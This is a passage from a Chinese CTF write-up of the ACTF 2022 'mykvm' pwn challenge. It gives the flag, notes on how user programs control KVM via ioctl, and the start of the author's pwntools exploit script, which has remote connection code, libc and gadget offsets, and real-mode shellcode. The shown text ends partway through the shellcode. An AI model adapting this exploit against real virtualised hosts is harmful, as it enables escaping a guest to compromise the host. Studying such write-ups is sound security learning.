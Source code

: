 
最后的flag可以看出，出题人应当是想让我们写一段实模式进入保护模式的汇编之后，再稳定的完成利用：

```c
ACTF{Y0u_c4n_D0_m0r3_th1nGs_Wh3n_sw1Tch_Real_m0d3_t0_pr0t3ct_M0de!}
```

## 总结

其他WP：

- 官方WP：[https://github.com/team-s2/ACTF-2022/blob/main/pwn/mykvm/exploits/exp.py](https://github.com/team-s2/ACTF-2022/blob/main/pwn/mykvm/exploits/exp.py)
- 影二つ的博客：[ACTF Pwn Writeup](https://kagehutatsu.com/?p=696)

通过本题，可以明白kvm具体咋用了：

- 用户程序可以使用ioctl与kvm交互，将虚拟机代码在本进程中内存地址设置给kvm
- kvm在运行时，宿主进程调用ioctl会阻塞，运行停机或异常时会阻塞返回
- 在kvm停止运行时，用户程序可以使用ioctl与kvm交互，获得或者设置kvm中的寄存器

所以kvm确实是一个具体的虚拟机软件，用户态程序只需要使用open和ioctl，操控/dev/kvm设备文件，即可运行guest代码，不过只有CPU和内存可以模拟。比赛时的exp比较乱套，python2的，但也真实的记录一下：

```python
from pwn import *
context(log_level='debug',arch='i386')

#io = remote("127.0.0.1",8000)
io = remote("20.247.110.192",10888)

sla     = lambda delim,data         :io.sendlineafter(delim, data) 
sa      = lambda delim,data         :io.sendafter(delim, data) 


# 0x1b68     libc pianyi base
# 0x3c4b78   main arean 
# 0xf1247    gadget 
# top chunks

shellcode = asm('''
.code16gcc
jmp main

.byte 0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00
.byte 0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00
.byte 0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00
.byte 0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00
.byte 0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00
.byte 0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00
.byte 0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00
.byte 0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00
.byte 0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00
.byte 0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00
.byte 0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00
.byte 0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00

main:

mov eax,0x7100              # dest
mov ebx,[eax]
sub ebx,0x603000
push ebx                    # push stack: heap start addr (virt)        

cmp ebx,0xe2fff
jc next
mov ebx,0
```